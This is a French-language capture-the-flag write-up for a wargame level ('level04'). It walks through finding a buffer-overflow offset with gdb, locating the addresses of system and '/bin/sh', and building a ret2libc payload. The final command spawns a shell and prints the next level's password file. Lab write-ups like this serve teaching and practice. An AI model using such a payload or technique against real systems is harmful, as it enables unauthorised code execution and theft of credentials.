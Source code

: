 # Level04

```shell
$ ./level04
Give me some shellcode, k
Hello World
child is exiting...

$ python -c 'print("A" * 200)' | ./level04
Give me some shellcode, k
Give me some shellcode, k
Ctrl+C
```

Il y a deux méthodes pour trouver la bon nombre de `A` à entrer:

```bash
$ gdb level04 -q
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.

(gdb) set follow-fork-mode child

(gdb) run
Starting program: /home/users/level04/level04
[New process 2245]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2245]
0x41326641 in ?? ()

# go to wiremask and it will give you: Register value 0x41326641 => Offset 156
```

Ou

```shell
$ python -c 'print("A" * 155)' | ./level04
Give me some shellcode, k
child is exiting...

$ python -c 'print("A" * 156)' | ./level04
Give me some shellcode, k
Give me some shellcode, k
Ctrl+C
```

On va essayer de faire un ret2libc. Notre argument va ressembler à

```shell
$ python -c 'print("A" * 156 + "AdresseSystem" + "OSEF" + "AdresseBinSH")'
```

Allons récuperer ces deux adresses

```shell
$ gdb level04 -q
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.

(gdb) b *main
Breakpoint 1 at 0x80486c8

(gdb) run
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486c8 in main ()

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

On trouve alors `AdresseSystem = 0xf7e6aed0` et `AdresseBinSH = 0xf7f897ec`, plus qu'à remplacer et essayer

```shell
$ (python -c 'print("A" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "OSEF" + "\xf7\xf8\x97\xec"[::-1])'; cat) | ./level04
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

https://wiremask.eu/tools/buffer-overflow-pattern-generator/
